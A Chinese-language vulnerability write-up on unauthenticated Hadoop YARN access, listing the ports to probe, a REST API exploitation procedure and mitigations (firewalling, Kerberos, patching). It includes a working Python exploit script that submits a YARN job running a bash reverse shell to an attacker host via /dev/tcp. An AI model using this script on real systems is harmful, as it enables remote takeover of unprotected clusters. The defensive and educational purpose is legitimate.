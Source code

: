 # Hadoop未授权访问

### 一、漏洞简介

Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce 算法进行分布式处理。这个框架被Adobe，Last fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

* 用户创建一个处理键值的map函数
* 产生了一套中间键/值
* reduce函数合并中间值并把他们关联到对应的键

### 二、影响范围

### 三、复现过程

1.扫描探测

1.1 常见端口

![](images/15890698430179.png)


1.2 敏感端口

![-w448](images/15890698539446.jpg)


通过访问 NameNode WebUI 管理界面的 50070 端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075 开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS 存储的数据进行操作。

![](images/15890698619321.png)


**2.攻击手法**

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API 也可以提交任务执行。

利用过程如下：

* 在本地监听等待反弹 shell 连接
* 调用 New Application API 创建 Application
* 调用 Submit Application API 提交

P牛的攻击脚本


```python
##!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

![](images/15890698909370.png)


**3.防范措施**

网络访问控制

使用 安全组防火墙 或本地操作系统防火墙对访问源 IP 进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop 服务所有端口发布到互联网。

启用认证功能

启用 Kerberos 认证功能。

更新补丁

不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。